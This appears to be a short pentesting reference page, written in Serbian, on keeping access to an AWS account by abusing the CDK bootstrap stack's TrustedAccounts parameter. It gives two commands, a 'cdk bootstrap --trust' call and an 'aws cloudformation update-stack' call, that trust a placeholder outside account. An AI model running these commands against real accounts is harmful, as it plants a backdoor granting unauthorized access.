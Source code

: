 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Za više informacija, pristupite:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK implementira CFN stack pod nazivom `CDKToolkit`. Ovaj stack podržava parametar `TrustedAccounts` koji omogućava spoljnim nalozima da implementiraju CDK projekte u nalog žrtve. Napadač može da iskoristi ovo da sebi obezbedi neograničen pristup nalogu žrtve, bilo korišćenjem AWS cli za ponovnu implementaciju stack-a sa parametrima, ili AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
